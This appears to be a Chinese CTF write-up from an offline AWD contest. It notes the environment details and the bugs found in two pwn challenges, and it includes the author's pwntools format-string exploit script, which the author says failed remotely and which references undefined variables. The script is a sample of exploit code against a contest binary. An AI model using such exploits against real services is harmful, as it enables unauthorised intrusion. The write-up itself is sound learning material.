




# AWD

第一次线下参加awd比赛，手忙脚乱的，一分也没拿，最后吃了保底三等奖:(

## 网上不会说的背景信息

1. 靶机分为4台，分别有4个服务，2web，2pwn，有独立ip
2. 不给密码给私钥，需要通过私钥连靶机，由于ssh对安全要求高，需要将密钥权限设为 **0400**
3. 给的靶机内核极老，是3.10还是3.15
4. 系统里没有挂载procfs，所以ps是看不了的
5. patch脚本要熟练，对手不会时间给你看题，特别是web

## 第一题

找到2个洞：`scanf`溢出写和`snprintf`格式化字符串漏洞




### 个人的失败脚本

本地打通了，结果远程打不通

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './0pwn'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('10.103.5.4', 8888)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'$', b'Init')
    sh.sendlineafter(b'Size', str(0x40).encode())
    for i in range(0x40):
        sh.sendlineafter(b'char', b'|')
        sh.sendlineafter(b'weight', b'1')

    def fmt_attack(fmt:bytes):
        sh.sendlineafter(b'$', b'Encode')
        sh.sendlineafter(b'length', str(0xa0).encode())
        sh.sendlineafter(b'Input', '|'.join(fmt).encode())

    fmt_attack(f'%{0x50 + 5}$p' + '0'*0x30)

    fmt_attack(f'%{1}$p')
    sh.recvuntil(b'characters:\n')
    dest = int(sh.recvline(), 16) & 0xffffffffff00
    info(hex(dest))

    fmt_attack(f'%{0x5d + 5}$hhn')
    fmt_attack(f'%{0xc0}c%{dest_arg}$hhn')
    fmt_attack(f'%c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x52}c%{dest_arg}$hhn')
    fmt_attack(f'%2c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x40}c%{dest_arg}$hn')
    fmt_attack(f'%4c%{0x5d + 5}$hhn')
    fmt_attack(f'%{dest_arg}$hn')
    fmt_attack(f'%{(dest - stack) // 8 + 0x57}$s')

    sh.interactive()
```

## 第二题

也找到2个洞：`add`没有`\0`截断导致的地址泄露和`change`中的堆块越界写




